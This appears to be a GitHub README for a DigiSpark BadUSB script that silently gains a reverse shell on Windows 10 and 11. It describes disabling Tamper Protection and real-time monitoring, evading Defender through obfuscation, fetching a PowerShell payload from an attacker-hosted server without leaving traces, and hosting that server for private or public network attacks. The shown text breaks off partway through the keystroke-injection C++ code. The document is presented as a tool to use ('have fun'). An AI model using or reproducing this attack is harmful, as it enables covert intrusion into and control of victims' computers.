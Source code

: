 ## Weaponized Example - (Undetected) Reverse Shell

This DigiSpark script gives you access to a system through a reverse connection within seconds. Just upload the code to the DigiSpark and BOOM!

What Makes This Special?

1. All the opened windows are closed as soon as the task is done, other tasks which need a window running to perform their task such as reverse shells are moved to the background and are only visible through the Task Manager.
2. As Tamper Protection and Real Time Monitoring is turned off, any commonly used payload such as [Msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) payload can be used to gain a reverse shell. 
3. The payload is not stored on the system so the victim can't trace back any details about the attack such as the server hosting the payload.
4. Tested on: Windows 10 and 11

### Requirements 

* DigiSpark ATTiny85
* Arduino IDE with [necessary modules](http://digistump.com/wiki/digispark/tutorials/connecting).
* A Powershell reverse TCP payload. (I use and prefer a [hoaxshell](https://github.com/t3l3machus/hoaxshell) payload.)
* You might require obfuscation to evade M$ Defender. Check out [this video](https://www.youtube.com/watch?v=iElVfagdCD4)
* A server hosting your payload. Choose the right fitting one for you, based on the network exposure.
  
  For private network attacks:
    * [Updog](https://github.com/sc0tfree/updog)
    * `python3 -m http.server 8443`
  
  For public network attacks:
    *  [Ngrok](https://ngrok.com/)
    *  AWS Lambda with static URL 


### How It Works?

1. The script starts with disabling [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide), which is the part of Microsoft Windows Defender. Disabling this allows us to change Windows Defender related settings straight from CLI.
2. Now the script opens powershell and turns of Real Time Monitoring allow any type of malware/payloads to run on the system.
3. Now the payload is downloaded to the system. Its not stored on the system, its just executed. So no house cleaning is needed.


### The Code
Make sure to add the IP of your hosted Payload Server and have fun:

```cpp
#include "DigiKeyboard.h"
void setup() {
  
}

void loop() {
  //Disable Tamper Protection (allows us to change Windows Defender settings through the CLI)"
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_D, MOD_GUI_LEFT);
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);
  DigiKeyboard.delay(200);
  DigiKeyboard.print("Tamper Protection");
```